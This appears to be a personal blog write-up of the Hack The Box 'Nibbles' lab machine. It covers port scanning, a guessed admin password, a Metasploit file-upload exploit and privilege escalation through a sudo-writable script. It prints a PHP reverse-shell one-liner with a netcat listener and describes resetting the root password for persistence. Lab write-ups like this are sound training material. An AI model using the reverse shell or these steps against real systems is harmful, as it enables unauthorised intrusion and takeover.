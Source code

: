 ```yaml
---
layout: post
title: "Nibbles write-up"
date: 2018-06-27
excerpt: "A ton of text to test readability."
tags: [sample post, readability, test]
comments: true
---
```


# Hack The Box: Nibbles machine write-up

This writeup will be shorter than usual given that the machine was fairly easy to root. The ip is 10.10.10.75.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
# Nmap 7.01 scan initiated Tue Jun 26 12:27:14 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 26 12:27:38 2018 -- 1 IP address (1 host up) scanned in 25.00 seconds
```

Not many things in here, so I decide to check the webserver on port 80. Initially I don't find anything interesting, just a 'hello world' message, but then I inspect the server's response and find out about a directory called 'nibbleblog'.

*Initial file*

![Img](/assets/posts_details/Nibbles/images/initial.png "Img")

*Intercepted response*

![Img](/assets/posts_details/Nibbles/images/burp.png "Img")

*Blog on /nibbleblog directory*

![Img](/assets/posts_details/Nibbles/images/nb.png "Img")

That's when I fire up DirBuster and get down to business. I set the initial directory to be nibbleblog and let it run. It enumerated over [400 directories/files](files/DirBusterReport-10.10.10.75-80.txt), but only one was of interest: `admin.php`.

*Admin.php login*

![Img](/assets/posts_details/Nibbles/images/login.png "Img")

As I hadn't found any credentials anywhere, it looked like we had to guess the password. Trying with the following credentials resulted in success:

* Username: admin
* Password: nibbles

#### Exploit

Once in, we had to find some vulnerability which would allow us to get RCE. After googling for a while, I came across one in metasploit. It was `multi/http/nibbleblog_file_upload`. We couldn't have used it earlier, as it required the username and password to log in to the control system.

It basically takes advantage of an image vulnerability which lets you upload php code instead. So, after setting the parameters, we get a meterpreter session

*Meterpreter session*

![Img](/assets/posts_details/Nibbles/images/msp.png "Img")

However, this is not a real shell, so there are many limitations (we can execute limited commands like `cat` or `ls`, but not `whoami`, for instance). That said, we could read the user flag.

To get around this issue, I used a php one-liner reverse shell and listened on another terminal window with netcat. Besides, I changed the metasploit payload to `php/reverse_php` so that I could execute the one-liner.

* `php -r '$sock=fsockopen("10.10.14.47",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

* `nc -lnvp 1234`

*New payload with fully upgraded reverse php shell*

![Img](/assets/posts_details/Nibbles/images/php.png "Img")

#### Root

After reading user flag we initially discover a zip file called `personal.zip`. I unzipped it and going down two directories to `personal/stuff` I come across a file called `monitor.sh`.

The first thing I usually do is run `sudo -l` and then `linenum.sh`. Well, this time it wasn't even necessary to do the second one, as `sudo -l` revealed that we could edit the file `monitor.sh` and run it as sudo. And everyone knows that means we own the box.

*`sudo -l` output*

![Img](/assets/posts_details/Nibbles/images/sudol.png "Img")

We can just write to the file and then run it:

*Getting the root hash*

![Img](/assets/posts_details/Nibbles/images/root.png "Img")

In order to achieve persistency (until the root password is changed), we can set the root password and log in through ssh:

*Getting to be root*

![Img](/assets/posts_details/Nibbles/images/pers1.png "Img")
---
![Img](/assets/posts_details/Nibbles/images/pers2.png "Img")

*Diego Bernal Adelantado*
